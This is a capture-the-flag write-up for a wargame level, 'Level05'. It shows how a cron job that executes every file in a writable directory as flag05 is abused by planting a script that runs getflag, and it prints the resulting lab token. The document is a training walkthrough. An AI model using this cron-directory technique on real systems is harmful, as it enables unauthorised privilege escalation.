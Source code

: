 # Level05 Documentation

## Objective
Retrieve the token for `level06` by exploiting a cron job that executes scripts as `flag05`.

## Approach & Tools
- **Technique**: Cron job exploitation via writable directories.
- **Commands**: `find`, `cat`, `echo`, `chmod`.

## Step-by-Step Solution
When we login as level05 user we get ```You have new mail.```

### 1. Locate the mail file:
```bash
find / -name "mail" 2>/dev/null
```
Output:
```bash
/var/mail
```
Check mail contents:
```bash
ls /var/mail
level05
cat /var/mail/level05
```

#### output
```bash
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Runs /usr/sbin/openarenaserver as flag05 every 2 minutes.
### 2. Analyze the Cron Script
Inspect /usr/sbin/openarenaserver:
```bash
cat /usr/sbin/openarenaserver
```
#### output
```bash
#!/bin/sh
for i in /opt/openarenaserver/* ; do
  (ulimit -t 5; bash -x "$i")
  rm -f "$i"
done
```
Executes all files in ```/opt/openarenaserver/``` Deletes them afterward.

### 3. Exploit the Writable Directory

Create a Malicious Script:
```bash
echo 'getflag > /tmp/flag05' > /opt/openarenaserver/getflag
chmod +x /opt/openarenaserver/getflag

# Wait 2 Minutes for the cron job to execute your script.
cat /tmp/flag05
```

#### Output:
```bash
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
### Key Takeaways

* Check System Mail: The You have new mail prompt often indicates cron logs or system alerts.

* Cron Job Hygiene: Writable directories in cron-executed scripts are High risk vulnerability.

* Ephemeral Files: Use /tmp for output since /opt/openarenaserver/ gets purged.